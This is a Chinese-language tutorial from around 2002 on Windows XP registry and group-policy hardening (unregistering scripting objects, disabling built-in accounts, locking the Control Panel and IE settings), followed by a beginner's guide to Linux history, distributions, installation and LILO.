#### (四)解决局域网中Windows XP访问Windows 98速度慢的问题

在局域网中有时会遇到这样一种情况，安装有Windows 98的电脑访问Windows XP的电脑时速度正常，反之用Windows XP的电脑访问Windows 98电脑时，速度却是非常缓慢。要解决此类问题，可以通过修改注册表来实现。具体方法为：在注册表编辑器中逐级展开“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer \Remote Computer\NameSpace\{D6277990-4C6A-11CF-8D87-00AA0060F5BF}”分支，你只要将“{D6277990-4C6A-11CF-8D87-00AA0060F5BF}”键值删除即可。

#### （五）修改默认的E-mail地址

当使用IE 6连接FTP站点传送文件时，FTP服务器会要求客户端提供一个E-mail地址作为匿名用户的密码，IE 6浏览器使用的是“IEUser@”，如果FTP服务器打开了匿名用户的密码审查功能，则使用IE 6访问这个FTP站点时就会报错。不过，通过修改注册表可以解决这个问题。具体方法为：在注册表编辑器窗口的左侧窗格中逐级展开“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings”分支，查找键值项“EmailName”，将其值修改为可用的E-mail地址即可，然后按“F5”键刷新即可生效。

#### （六）禁止使用文件共享

文件共享常常会导致电脑控制权的丧失，这也是最常见的安全漏洞之一。不过你可以通过修改注册表来达到禁用文件共享的目的，具体方法为：在注册表编辑器中逐级展开“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Network”分支，在右侧窗格中创建一名称为“NoFileSharing”的DWORD值，然后将其设置为“1”。重新启动电脑后，系统将不再把文件设置为共享。

### 十二、Windows Messenger 高级使用技巧

#### （一）禁用Windows Messenger

倘若你不希望Windows Messenger随着电脑的启动自动运行，或者也不希望别人来启动它，那么最好的办法就是将其禁止运行，用组策略禁止“Windows Messenger”运行的具体方法为：在【组策略】编辑器窗口的左侧窗格中。逐级展开【计算机配置】→【管理模板】→【Windows组件】→【Windows Messenger】分支，再从右边的窗口上，双击【不允许运行Windows Messenger】，在弹出的【不允许运行Windows Messenger属性】对话框中选择【已启用】选项，然后单击【确定】按钮退出，完成操作。

#### （二）保存聊天记录

用过Windows Messenger的用户会发现，当和网友聊了很长时间后，却发现该软件不能像QQ那样能自动保存聊天记录，其实，你完全可以变通一下来达到保存聊天信息的目的，具体实现方法如下。在关闭对话框之前，选择【文件】→【保存】菜单命令，在打开的【另存为】对话框中将当前聊天记录保存为文本文件即可。

#### （三）Windows Messenger 也有个“黑名单”

QQ提供了一个黑名单功能，通过这个功能可以将某个用户发来的信息全部屏蔽掉。其实Windows Messenger中也有类似的功能。具体实现方法如下。在联系人列表中，用鼠标右键单击想要屏蔽的帐号，选择快捷菜单中的【阻止】命令，这样，你再也接收不到他的信息了；如果要取消对某个人的屏蔽，则在该用户的帐号上单击鼠标右键，选择快捷菜单中的【取消阻止】命令，就可以恢复与这个用户的正常通讯了。

### 十三、Windows XP 的防黑与防毒技巧

#### （一）关闭部分危险的系统功能

对于网页恶意代码，想必大多数网虫不再陌生了吧？某些站点网页的恶意代码未经许可就可以将浏览者浏览器的“标题栏”和“默认主页”非法修改，或者禁用了浏览者的注册表编辑器等等，更为严重的是对硬盘实施格式化或者删除数据。其实网页中的HTML代码本身对系统并无任何危害，只有在HTML代码中加入了可以在浏览器中执行的外部对象脚本程序，代码才会对用户造成各种危害。一般而言，当遇到IE 6浏览器发出“该页上某些软件可能不安全，建议不要运行”这类的警告时，除非你真的很有把握，否则不要运行。但问题远不止那么简单，有的网页病毒（例如“Happy time”）甚至只要你用鼠标单击邮件时，邮件程序的网页预览功能即可激活此病毒。这类病毒一般都是通过“.wsc”、“.wsf”、“.vbe”和“.jse”等类型的脚本程序来实施破坏的，其共同点就是必须借助“Wscript.exe”来执行。为了防止恶意代码的攻击，可以采取如下防范措施。

(1) 在【控制面板】窗口中双击【Internet选项】图标，激活【Internet选项】设置窗口。选择【安全】选项卡，请为不同区域的Web内容指定安全设置，对于普通上网用户一般选择【Internet】即可。然后直接将安全级别的滑块设置为【高】。倘若你想获得更加灵活的设置，就单击【自定义级别】按钮，然后对有关项目进行详细设置。根据多数上网用户的经验，倘若将安全级别设置得高些，绝大多数情况下并不会对网页浏览造成明显的不便。通过以上设置，网络上的多数有害信息就可得到有效过滤。如果特殊情况下需要启用ActiveX和Java脚本功能时，可临时在【Internet选项】窗口的【安全】选项卡中单击【默认级别】按钮，这样即可快速还原系统默认的设置，不过，设置完毕后最好记得再改回较高的安全级别。

(2) Windows XP并没有直接提供卸载Windows scripting host的功能，但你可以通过取消危险对象的系统注册记录来禁用那些具有危险性的文件类型，具体方法是在【开始】菜单的【运行】对话框内分别输入如下命令：

```
regsvr32 /u wshom.ocx
regsvr32 /u wshext.dll
```

分别确定后回车，就可以把注册表中“ .wsh”对象的注册值删掉，此时系统会报告“DllUnregisterServer”卸载成功。这样，那些必须调用对象才能运行的恶意代码就因缺少相关对象的支持而无法运行了。

#### (二)堵住Outlook Express的安全漏洞

目前，几乎所有的电子邮件病毒都是针对Outlook Express而设计的，病毒大都是利用Outlook Express支持HTML格式邮件的弱点。而且由于Outlook Express提供了供外部脚本调用的接口对象，使得病毒可以“如鱼得水”，破坏屡屡得手。针对这些问题，我们可以按如下方法来提高Outlook Express的安全性。

**1. 禁用Outlook Express提供给外部脚本调用的接口对象**

许多病毒在利用Outlook Express来传播时，往往会自动往地址簿中的E-mail地址发送以病毒自身为附件的邮件。只要禁用了Outlook Express提供给外部脚本调用的接口对象后，这种做法就行不通了，其方法是在【运行】对话框内输入如下命令并回车。

```
regsvr32 /u msoe.dll
```

不过，在某些Windows XP系统中运行上述命令时屏幕会出现“找不到指定的模块”的错误提示信息。此时你可以试用如下命令：

```
regsvr32 /u msoe.dll C:\Program Files\Outlook Express\msoe.dll
```

上述路径是以C盘为默认的安装路径的，倘若你的Windows XP安装在其他分区，则上述盘符和路径应当根据具体情况来更改，或者使用环境变量来确定Windows XP的默认安装路径，这样该命令行还可以写成以下形式。

```
regsvr32 /u "%Program Files%\Outlook Express\msoe.dll"
```

**2. 对Outlook Express进行合理设置**

- (1) 禁用Outlook Express的自动邮件预览功能。具体方法为：选择【工具】→【选项】命令，弹出【选项】设置窗口，在【阅读】选项卡的【阅读邮件】栏中，将【在预览窗格中查看的同时自动下载邮件】复选框的勾选标记取消。这样，一些可以通过鼠标事件触发的脚本就不会轻易被激活了。

- (2) 检查默认的安全设置。在Outlook Express的【安全】选项卡中，一定要将【当别的应用程序试图用我的名义发送电子邮件时警告我】和【不允许保存或打开可能有病毒的附件】两个选项的复选框打上勾选标记。

由于以上这些设置都保存在系统注册表中，因此恶意代码也有可能修改它们，因此最好要做到经常检查，以及时消除不安全的设置。

技巧：将上述有关禁用系统对象的命令编写成一个批处理文件保存备用，这样在每次重装Windows XP后，可以方便地对有关对象一次性禁用，而不必再查阅相关的命令。批处理文件(Unreg.bat)代码如下：

```
regsvr32 /u "%Program Files%\Outlook Express\msoe.dll"
regsvr32 /u wshom.ocx
regsvr32 /u wshext.dll
```

倘若要恢复使用那些对象，只要在以上的命令中去掉“/u”重新运行即可。另外，也可以将这些代码编写成一个批处理文件(Rereg.bat)。其代码如下：

```
regsvr32 "%Program Files%\Outlook Express\msoe.dll"
regsvr32 wshom.ocx
regsvr32 wshext.dll
```

#### (三)禁用系统默认的特殊用户

Windows XP提供了“HelpAssistant”和“SUPPORT_388945a0”两个特殊帐户，它们分别提供了远程协助、帮助和支持服务。但是，这些内建的帐户同时也对我们的系统安全具有潜在的威胁，倘若有人恶意地利用这两个帐户，其后果将不堪设想。不过删除这两个帐户倒也大可不必，只要将其禁用就行了。具体方法如下。

- (1) 在【控制面板】中依次双击【管理工具】→【计算机管理】图标，打开【计算机管理】控制台窗口。

- (2) 在左侧窗格中逐级展开【计算机管理(本地)】→【系统工具】→【本地用户和组】→【用户】分支，然后在右侧窗格中分别用鼠标右键单击这两个帐户，选择快捷菜单的【属性】命令，在属性设置窗口的【常规】选项卡中勾选【账户已停用】的复选框即可（如图67）。



#### (四)取消不需要的网络服务组件

通过【控制面板】→【管理工具】→【服务】可以管理 Windows XP 中已经安装注册的各种后台服务。出于安全方面的考虑，还有几个与网络有关的服务在此窗口中并未列出来，你必须通过网络连接属性才能对其进行设置，具体方法如下。

- (1) 单击选择【开始】→【设置】→【网络连接】命令，激活【网络连接】窗口。
- (2) 用鼠标右键单击已创建好的互联网连接，选择快捷菜单中的【属性】命令，然后在【属性】设置窗口的【高级】选项卡中，单击【设置】按钮，打开【高级设置】窗口。



- (3) 在其中的【服务】选项卡的【服务】列表中，可以看到已经安装的各种服务，如果你的计算机不是专门用于架设 FTP 或 SMTP 等服务器，不妨全部取消这些项目的选定状态（如图68），以减小这些服务对系统资源的占用。

### 十四、给 Windows XP 加把锁

#### (一)禁用“注销”和“关机”命令

如果你的电脑用途比较特殊，打算一旦电脑启动以后，就不再希望其他用户再进行关机和注销操作。那么可以通过以下方法来实现这个功能。

- (1) 在组策略编辑器窗口中，将左侧窗格的树形结构逐级展开为【用户配置】→【管理模板】→【任务栏和[开始]菜单】分支，然后在右侧窗格中用鼠标分别双击【删除[开始]菜单上的‘注销’】和【删除和阻止访问‘关机’命令】两个策略选项（如图69）。



- (2) 在弹出的属性设置窗口中，选择【已启用】选项，然后单击【确定】按钮即可。

这样，【开始】菜单下面的【注销】和【关闭计算机】两个项目就被删除了，从而限制了其他用户对电脑进行注销和关机的操作。

#### (二)禁止让他人添加或删除程序

当多人共用一台电脑时，最让人烦恼的应该是其他用户在电脑上随意安装/删除程序了，这时，你就应该请 Windows XP 的组策略来帮你一把了，具体操作步骤如下。

在组策略编辑器的左侧窗格中逐级展开【用户配置】→【管理模板】→【控制面板】→【添加/删除程序】分支，然后将右侧窗格中的【删除‘添加/删除程序’程序】等策略项启用（如图 70）。

这样其他用户就不能随意安装删除程序了。


Windows 资源管理器中删除【控制面板】文件夹。倘若你想从上下文菜单的属性项目中选择一个【控制面板】项目，系统会给出“禁止操作”的提示信息。

#### （三）给“控制面板”加把锁

“控制面板”就是操作系统的工具箱，Windows XP的各项软硬件设置都是通过“控制面板”提供的各种工具来实现的，例如“系统设置”、“系统日期和时间”、“网络连接”、“添加硬件”等等。为了防止他人随意更改你的电脑设置，从而避免给系统带来灾难性的破坏，应该给“控制面板”及其工具加把保护锁。

#### （四）给IE 6浏览器加锁

在IE浏览器的“Internet选项”窗口中，提供了比较全面的设置选项（例如：首页、临时文件夹、安全级别和分级审查等项目），这些功能极大地方便和保障了我们在网上冲浪。为了不使他人随意改变你对浏览器的设置以及对IE某些功能的限制使用，你有必要将你的设置选项进行隐藏或禁止使用。

下面就来介绍两个方案。

**1. 删除“控制面板”中指定的工具**

具体操作步骤如下。

- (1) 在组策略编辑器窗口的左侧窗口中逐级展开【用户配置】→【管理模板】→【控制面板】分支，然后在右侧窗格中用鼠标双击【隐藏指定的控制面板应用小程序】策略项，在弹出的属性设置窗口中选择【已启用】选项，然后单击【显示】按钮。

- (2) 接下来，在打开的【显示内容】窗口中单击【添加】按钮，然后在弹出的【添加项目】对话框中，输入【控制面板】中想要删除的工具名称，例如“sysdm.cpl”系统。接着连续三次单击【确定】按钮退出即可。

提示：若要获得全部有关【控制面板】应用小程序的文件名称，你只要利用Windows XP的查找功能将扩展名为“.cpl”格式的文件列出即可。

**2. 禁止访问“控制面板”**

如果你不经常操作“控制面板”的话，也可以将其设置为禁止访问，具体方法是展开【用户配置】→【管理模板】→【控制面板】分支，将右侧窗格中【禁止访问控制面板】的策略项启用即可。这样，任何人将再也不能访问控制面板了。

提示：此项设置将使他人无法启动“控制面板”或者其中的任何项工具。另外，这个设置还将从【开始】菜单中删除【控制面板】。同时这个设置还可以从

**1. 删除“Internet选项”窗口中的选项卡**

为了防止他人对IE 6浏览器设置的修改，需要对“Internet选项”窗口中的选项卡进行有选择性的删除，具体方法为：在组策略编辑器窗口的左侧窗格中，逐级展开【用户设置】→【管理模板】→【Windows组件】→【Internet Explorer】→【Internet控制面板】分支，然后在右侧窗格中启用相应的策略选项即可（如图71）。例如，若要删除【高级】选项卡，只要用鼠标双击【禁用高级页】策略项，然后在弹出的窗口中选择【已启用】选项。以此类推，也可以达到删除“常规”、“安全”、“内容”、“连接”和“程序”等选项卡的目的。


**2. 限制IE浏览器的保存功能**

当多人共用一台电脑时，为了保持硬盘的整洁，应该限制他人随意保存网页，具体的方法是：在组策略编辑器窗口的左侧窗格中，逐级展开【用户设置】→【管理模板】→【Windows组件】→【Internet Explorer】→【浏览器菜单】分支，然后将右侧窗格中的【‘文件’菜单:禁用‘另存为...’菜单项】和【‘文件’菜单:禁用另存为网页菜单项】两个策略项目启用即可。

另外，如果你不希望别人访问工具菜单下的## 系统专区

【Internet选项】命令，也可以将其禁止，方法是将该分支下的【'工具'菜单：禁用'Internet选项...'】策略启用。

### 3. 禁止修改IE浏览器的主页

如果你不希望他人对自己设定的IE浏览器主页进行随意更改的话，你只要在【用户配置】→【管理模板】→【Windows 组件】→【Internet Explorer】分支下，将右侧窗格中的【禁用更改主页设置】策略启用即可。另外，在这个窗格中，还提供了更改历史记录设置、更改颜色设置和更改Internet临时文件设置等项目的禁用功能。

> 提示：倘若启用了这个策略，在IE浏览器的【Internet选项】对话框中，其【常规】选项卡的【主页】的设置区域将变灰。

#### (五)禁止他人访问硬盘

当多人共用一台电脑时，想必最令你担心的事应该是硬盘上的数据被人误删和修改了，那么如何才能有效保护某个分区不被他人访问呢？具体的实现方法如下。

### 1. 阻止用户通过"我的电脑"访问硬盘

在组策略编辑器窗口的左侧窗格中，逐级展开【用户配置】→【管理模板】→【Windows组件】→【Windows资源管理器】分支，然后在右侧窗格中双击【防止从'我的电脑'访问驱动器】策略项，在属性设置窗口中选择【已启用】选项，选择要禁止访问的硬盘驱动器（例如“只限制D驱动器”）即可（如图72）。


+   选择下列组合中的一个
- 限制所有驱动器
- 仅限制驱动器A和B
- 仅限制驱动器C
- 仅限制驱动器D
- 仅限制驱动器A、B和C
- 仅限制驱动器A、B、C和D
- 限制所有驱动器
- 不限制驱动器

### 2. 防止从"命令提示符"访问硬盘

当禁止通过“我的电脑”访问硬盘后，他人还可以通过命令提示符方式进入硬盘，所以还应同时禁止通过命令提示符访问硬盘。方法是逐级展开【用户配置】→【管理模板】→【系统】分支，然后在右侧窗格中将【阻止访问命令提示符】策略项启用即可（如图73）。


### 3. 禁止运行"cmd.exe"命令

当以上两个设置完成以后，还不能完全阻止他人对硬盘的访问，因为用户依旧可以利用【运行】来执行“cmd.exe”进入“命令提示符”状态，然后再访问硬盘。所以，“cmd.exe”这个命令也是应该被屏蔽掉的。方法是逐级展开【用户配置】→【管理模板】→【系统】分支，然后在右侧窗格中用鼠标双击【不要运行指定的Windows应用程序】策略项，然后在该策略项的【属性】窗口中选择【已启用】选项，再单击【显示】按钮，在弹出的【显示内容】对话框中添加“cmd.exe”，这样该应用程序就被屏蔽掉了（如图74）。至此，其他用户就无法访问本地计算机的D盘了。


另外，如果要防止用户修改注册表，应该在该分支下启用“禁用注册表编辑工具”策略项。这样设置后，如果用户尝试修改注册表，那么就会出现提示出错的信息。

通过以上的设置之后，便可以有效地保护某个逻辑硬盘中的数据了。

(文/马宪廷)

## 从零起步Linux全接触

### 一、认识Linux

#### （一）Linux的发展概述

Linux 是目前除 Microsoft 公司视窗系列外普及率最广的操作系统，Linux 诞生于1991年10月，其发展已历经11年的历史，可以说是与 Microsoft 公司视窗系列相抗衡的排头兵。

当计算机还是8086至80486的时候，计算机用户可以选择很多操作系统如直至今日还被很多人熟悉的 DR-DOS、PC-DOS、MS-DOS 及 OS/2 等，但是，到了Pentium年代，这些耳熟能详的操作系统渐渐退出了历史的舞台，只剩下 Windows 的独舞，甚至让用户无从选择，在这期间，Linux 一直积蓄着自己的力量，直至1998年，Linux终于作为一个新的操作平台流行了起来，并在当年的Server操作系统中达到了17.4%的全球占有率。

1991年，一位芬兰学生 Linus Torvalds 出于兴趣开始研究一个名为 Minix 的操作系统，这个系统是教授 Andrew S. Tenebaum 编写的，目的是为了帮助学生深入了解 UNIX 操作系统，出于这个目的，Minix 的源代码是公开的，但是由于种种原因，Minix 最多只能支持3个用户，且没有图形用户界面（现在常说的“GUI”），因此，Linus 决定自己开发一个以 Minix 为基础的操作系统并且将自己的名字 Linus 与 UNIX 合二为一，这也就是现如今叱咤风云的操作系统—— Linux 名称的由来。

但是，设计操作系统的工作绝不是一个人能够完成的，因此明智的 Linus 把0.02 版的 Linux 放在了 Minix 的新闻组上，这样对此感兴趣的 UNIX 程序设计师、工程师或其它高手都可以和他一起对这个操作系统进行发展和完善，到1992年1月止，全世界只有100个左右的人在使用 Linux，但是，也正是这100人为 Linux 做了至关重要的洗礼，他们所提供的所有初期的上载代码和评论都对Linux的发展起了基石性的作用（特别是很多黑客们为了解决Linux的错误而编写的插入代码段），Linux的发展可以说是“网聚人的力量”之典范。

到了1994年，Linux的操作系统核心1.0版在众人拾柴火焰高的大环境下问世。Linux的发展秉承了开放式源代码即“Open Source”的精神。直到现在，所有Linux的源代码均可免费取得，并可任意修改，这也是Linux不愁技术匮乏的主要原因之一。

Linux是一套免费且功能完整的专为 x86 平台（Intel/AMD/Cyrix 的386/486/Pentium系列；Pentium II、III、IV；K6/M2/Cyrix 6x86等）的个人计算机所设计的UNIX软件，是一个32位的操作系统，而且由于Linux的前身是Minix，而Minix又以UNIX为基础，所以Linux在界面及功能上都与UNIX极为相似，有了Linux后，那些向往UNIX已久但由于硬件达不到要求的用户就不必再扼腕叹息了，因为使用Linux同样可以达到与UNIX相同的效果。

Linux支持完整的网络软件，包括TCP/IP、Email、Emacs、X Window、NFS、NIS、News、WWW等等。在Linux上建置网络服务器，已是目前一个经济且实惠的新选择，大部分的用户都会算这笔经济账，架构在Windows 2000 Server上的大部分服务软件都是收费的，再加上Windows 2000本身昂贵的价格，对于中小型企业或者个人用户来说无疑是一堵高墙；而Linux低廉的价格以及附带的大量免费但功能强大的服务软件使它成为了架设服务器的首选。

如果读者认为Linux仅仅是以低价格来挑战视窗王朝的话，那就大错特错了，由于Linux对应用程序使用的内存进行保护，因此在Linux下应用软件无法访问系统分配的内存以外的内存区域，这样一来，就避免了视窗系列经常出现的因为一个应用程序而使整个系统瘫痪的情况几乎不会出现，这对于追求稳定的用户来说是非常重要的，它的稳定性也像UNIX一样被整个业界所称道——如果看到某些用户因为死机丢失文档而乱砸东西的话，99%的可能他使用的是视窗系列。毫无疑问，Linux也是目前使用人数最多的UNIX操作系统之一。

#### （二）Linux的家族

目前，Linux已经有超过20种以上的种类，这些不同的Linux所使用的系统核心是相同的，而且文字模式的操作方式也是大同小异。随着发展的需要，很多Linux Distribution对系统做了一些精美的包装，使得系统的管理与使用更为简单，这一点不得不承认是受视窗系列的影响，毕竟人们告别文字模式的DOS已经很久了，没有人会愿意重拾命令行的工作方式。

下面简介一下在中国最常见的Linux Distribution。

### 1. Slackware


Slackware Linux是最早出现的Linux发行套件之一，其特点是安装简单，目录结构清楚，版本更新快。但是，最大的缺点就是软件种类远少于RedHat和Debian；而且安装也不如RedHat快速、直观。另外，由于Slackware只提供字符方式的安装界面，需要用户自己去寻找针对不同硬件的启动盘，而且其升级方式也不如RedHat和Debian简单。因此同RPM和DEB相比，Slackware只有一个相对简陋的pkgtool，经常会出现卸载软件后其他软件使用不了的故障。目前它的最新版本是8.1版。

### 2. RedHat Linux


RedHat Linux是由RedHat公司发行的目前应用最广泛的Linux套件。从4.0版起便同时支持Intel、Alpha、Sparc三种硬件平台。其所有的软件包都是以RPM (RedHat Package Manager) 方式包装的，用户可以轻松地进行软件升级，彻底卸除应用软件和系统部件。RedHat提供一套X Window下的系统管理软件，让用户可以在图形方式下进行增加/删除用户、改变系统设置、安装新软件、安装打印机等系统管理方面的工作，非常直观和方便。RedHat收集的软件包非常完整和精美，不仅包括大量的GNU和自由软件，还包括了一些优秀的ShareWare软件。被人们称为Windows版的UNIX。

### 3. TurboLinux


TurboLinux中文版是由北京拓林思软件公司汉化并发行的中文Linux套件。利用ZWinPro外挂式中文平台，给用户提供了一个从安装到使用完整中文环境的Linux版本。实现了在Linux系统下的中文多内码显示、输入、打印的全面解决。包括大量系统管理软件，网络分析软件，网络安全软件和极其完善的开发环境，并提供了C++、Java、Perl、Tcl/Tk、Python、Fortran77等语言的编译器/解释器、大量的最新集成开发环境、调试器和其他开发工具。另外TurboLinux集群服务器是目前Linux上较少采用Cluster集群技术的企业级产品。是一种性能超群，极其可靠，扩充性好的解决方案。

### 4. Xteam Linux


Xteam Linux是冲浪平台公司联合天极网和连邦软件共同推出的一款最新的桌面系统，分为标准版和程序员版两种版本。标准版是一款适合Linux桌面应用以及中小型服务器应用的产品，齐全的应用套件和强大的网络功能可让使用者很快上手，轻松应用；程序员版则主要是为程序员而设计的，其功能强大的开发工具可满足程序员的各种编程需要。

XteamLinux具有以下优点：支持多种非Intel处理器；对多处理器的支持更好，系统运行效率有很大提高；支持更多的应用程序；提高了自动识别硬件的能力；提供了软件模拟的磁盘冗余阵列，可以把多个硬盘当做一个大硬盘来用；提高了对硬盘资源的使用效率；Xteam Linux采用了以内核汉化为主、外挂平台为辅的方式；采用了最新的KDE版本作为标准的中文图形用户界面；全图形安装界面、支持简体中文、繁体中文和英文；而且增强了USB支持，可以支持USB接口的数码相机、打印机、扫描仪等设备。

### 5. Debian Linux


Debian Linux是由GNU发行的Linux发行套件，完全由网络上的Linux爱好者负责维护，其所有组成部分都是自由软件。Debian Linux的特点是软件极其丰富，升级容易。软件之间的关联性强，具有开放式的开发环境。可以说，Debian是一个动态的Linux发行套件。

### 6. S.u.S.E. Linux


S.u.S.E. Linux是一个德国系统,是欧洲地区使用最广泛的Linux套件,其特点是易于安装使用,并且包含有一些其它发行套件不具备的一些软件,例如S.u.S.E. Xserver,比Xfree86支持更多的显示卡,是采用新软件最多的一种发行套件。在本专题中,我们将以目前国内比较流行的RedHat Linux 7.3为例来进行讲解。

### 二、Linux 的安装配置与卸载

#### （一）看看Linux是否适合你的计算机

### 1. 收集硬件信息

拿到Linux后,在安装之前,我们首先要考虑的是:我的计算机到底能不能安装它?因此,必须先搞清楚自己的计算机里到底有些什么硬件,用户还应该尽可能的收集系统硬件的所有有关信息,比如硬件型号、系统的IRQ设置等,只有这样,才能够保证在Linux识别不出某个硬件时,用户可以对症下药。

下面我们以目前最火爆的Windows XP为例来介绍,收集硬件信息这项工作在Windows XP中可以轻松完成,先打开【控制面板】,双击【系统】图标,打开【系统属性】对话框,在该对话框的【常规】选项卡中可以查看计算机的处理器制造商及其说明、安装的内存容量和当前的操作系统等信息,如图1所示。


接下来选择【硬件】选项卡,打开【设备管理器】窗口,如图2所示,在其中就可以将所有的硬件信息“一览无余”了。用户可以双击任何硬件来得到更多的硬件信息内容,也可以执行【操作】菜单上的【打印】命令,将硬件的详细信息都打印出来。


至于对其他版本的Windows系统,其查找硬件信息的方法也大同小异,但其操作方法都比较简单,这里不作详细介绍了。

### 2. 检查硬件的兼容性

收集了硬件信息后,接下来还有最重要的一步——检查系统硬件兼容性。用户应当找到欲安装的Linux版本厂商所提供的兼容硬件列表,一般来说,Linux开发商都会提供这样的兼容硬件列表的。如果用户没有找到自己要安装Linux版本的兼容硬件列表,就可以到http://www.linux-mandrake.com/zh站点去查找经过Linux-Mandrake测试过的硬件列表,这是经过Mandrake Linux测试合格的,它应该能够适用于大多数Linux安装版本了,对于普通用户来说,这也是最简单的解决方法了。

### 3. 硬件要求

从硬件配置的角度讲, Linux 无疑要大大胜过Windows,其最低配置只需要386的CPU加上8MB内存及一个能读盘的光驱,Linux就可以安装并运行了,因此用户如果家里还有古董级的计算机的话,不妨废物利用装个Linux,以延长计算机的使用寿命——当然要求低也是有个限度的,286这样比较“古董”的CPU是无法运行Linux的。

至此,硬件准备已经做好了。

#### （二）开始安装Linux

### 1. 合理划分分区

早期的Linux不是面向普通用户的,因此它的安装不是那么平易近人,但是最新的Linux已经非常贴近用户了,与安装Windows一样,安装Linux几乎不用什么特殊的准备,只需要记录下系统的相关资料,如内存大小、CDROM接口类型、SCSI卡型号,网卡型号、鼠标类型、显卡芯片组、时钟芯片、显存大小等相关信息即可。但是,由于文件系统的区别,Linux只能安装在自己的分区,因此设计硬盘分区几乎成了安装Linux前唯一需要费脑力的准备工作了。

#### (1) 安装Linux所需的分区

运行Linux操作系统最少需要两个分区,一个是root根分区（即“/”）,所有的系统文件都将存放在这里;另一个是swap（数据交换）分区,主要的作用是为计算机中提供虚拟内存,该分区的设定很简单,只要将其大小设为内存大小即可;较专业的用户一般习惯分出一个单独的/boot分区,作为Linux的启动分区,这样可以防止root根分区出现问题,系统无法启动的情况。

除此之外,还可以划分以下几个分区。

系统日志记录分区 (/var/log): 保存系统的日志记录文件。

临时文件分区 (/tmp): 用于存放程序运行时生成的大量临时文件。

用户分区 (/home): 用于存放用户的数据,方便了对用户或者用户分组实行硬盘限额,同时也起到了用户数据与系统文件分开的作用,这样在重新安装Linux时,用户数据不会丢失。

#### (2) 几种常见分区方案

以下是几种常见分区方案。

表1 服务器分区方案
| /boot | 20M |
| --- | --- |
| Swap | 128M (视内存大小而定) |
| / | 10G |
| /var | 15G |

表2 家用计算机分区方案
| / | 20G |
| --- | --- |
| swap | 128M (视内存大小而定) |
| /home | 5G |

### 2. 图形化安装全程

Linux有很多种安装方法,软盘启动方式、光盘启动方式、硬盘安装、网络安装,由于本文不是一本面面俱到的教科书,因此在这里只介绍最常用的光盘安装。

(1) 安装前 用户应当在BIOS设置里将计算机的引导顺序设为光驱优先,然后放入Linux安装光盘,并重新启动计算机。

(2) 启动后 进入光盘引导,读取了相应的数据后,进入Linux的欢迎画面,提示用户选择相关选项,如图3所示。

(3) 按照屏幕提示 按下回车键进入图形化安装界面,如图4所示。


(4) 单击【Next】按钮,进入安装程序首页,如图5所示。


(5) 在该页面中,用户可以选择安装程序所用的语言,对于普通用户来说当然应当选中“Chinese(Simplified)”（简体中文）。

(6) 然后单击【Next】按钮,进入如图6所示的界面,进行选择键盘的操作。

(7) 在这里用户应当选择与所用键盘最相近的选项,一般来说,使用安装程序默认的选择即可。

（8）单击【下一步】按钮（由于安装程序使用的语言是简体中文，因此按钮也由【Next】变成了【下一步】），进入【鼠标配置】，用户可以在这里选择合适的鼠标，与键盘一样，使用程序的默认项即可，如图7所示。

（9）接下来，系统会询问用户是否使用自动分区，建议选择【否】，进入手工分区的【磁盘设置】界面，如图8所示。

（10）在界面的上方，代表硬盘的矩形图形中，单击需要分区的部分，图形下方的文字说明部分会列出该分区的信息，选择了合适的空白区域或者分区后，单击【新建】或者【编辑】按钮即可进行分区设定，如图9所示。

（11）在弹出的设置对话框中，用户可以设置该分区的挂载点如“/”以及文件系统“ext2”（最新的Linux支持“ext3”）或者“swap”以及分区大小等等，进行了相关的设置后，单击【确定】按钮即可。划分了至少一个“/”和一个Swap分区后，单击【下一步】按钮，进入“引导装载程序配置”，如图10所示。

（12）在该配置中，用户可以选择LILO或者GRUB作为引导装载程序，在这里推荐使用GRUB，有关LILO以及GRUB的相关知识，我们将在后面详细介绍。在【引导记录安装位置】中，建议用户选择“主引导记录”，因为这样可以在安装完毕后直接启动Linux和其它系统，如果选择了“引导分区的第一个扇区”还要进行其它操作才能顺利启动Linux，这将在后面进行介绍。

如果用户的系统中已经安装了其它操作系统，还可以在图10中选择启动时的默认操作系统。

（13）设置完毕后单击【下一步】按钮，进入【引导装载程序口令配置】，如图11所示。

（14）然后为引导装载程序加入口令，可以防止用户将任意选项传送到内核，但是一般不常用，可以直接单击【下一步】按钮，进入下一个配置，如图12所示。

（15）用户可以根据个人需要选择相应的配置，如果需要进一步的选择，可以选中【选中单个软件包】选项后单击【下一步】按钮，如图13所示。

然后安装程序会自动列出详细的软件包信息，你选择需要的软件包即可，需要提醒用户注意的是，有些软件包之间是有依赖关系的，因此选中某些软件包后可能还需要选中其它软件包，安装程序会自动给出相应的提示。

（16）选中需要的软件包后，单击【下一步】按钮，进入【显示器配置】界面，如图14所示，安装程序会自动检测显示器的配置并列出，如果没有检测出用户的显示器型号的话，也可以选中一个指标类似的显示器型号，或者手工输入显示器的水平与垂直频率范围。

（17）设置好显示器的指标或者型号后，进入【定制图形配置】，在这里用户可以设置色彩深度以及屏幕分辨率，与使用 Windows 时的颜色数和屏幕分辨率设置操作差不多；另外还可以选择默认的桌面环境如“GNOME”或者“KDE”等；最后可以设置用户的 Linux 启动后是否直接进入 X Window，如图15所示。

（18）接下来单击【下一步】按钮，安装程序将开始复制软件包以及安装 Linux 了。结束后，重新启动计算机，安装过程就全部结束了。这样，用户就拥有了自己的 Linux 系统了。

## 3. 启动指南

尽管引导操作系统看上去是件平凡且琐碎的任务，但它实际上很重要。如果引导装入器不能很好地完成工作或者不具有弹性，那么就可能锁住系统，而无法引导计算机。另外，好的引导装入器可以给你灵活性，让你可以在计算机上安装多个操作系统，而不必去处理不必要的麻烦。

前面的安装介绍中，提到了LILO以及GRUB引导装载程序，下面就来对这两个引导装入程序做一个简要的介绍，以便用户进行选择。

### (1) LILO

LILO 是 Linux 自带的一个优秀的开机启动管理程序，是 Linux 启动管理程序LILO (Linux LOader) 的简称，可以开机时启动Linux, PC/MS-DOS, DR DOS, OS/2, Windows 95, Windows NT, 386BSD, SCO UNIX, UNIXware等多种操作系统。

由于LILO的经典文章很多，而且随着GRUB的应用，LILO的地位岌岌可危，因此本文不再对LILO进行赘述。

### 小技巧1：如何配置LILO

LILO的所有配置都写在 /etc/lilo.conf 文件中，用户只要对该文件进行修改，即可完成对LILO的配置。下面是一个lilo.conf文件的常见内容：

```
boot=/dev/hda
map=/boot/map
install=/boot/boot.b
prompt
timeout=30
default=linux
image=/boot/vmlinuz-2.4.18-3
    label=linux
    root=/dev/hda1
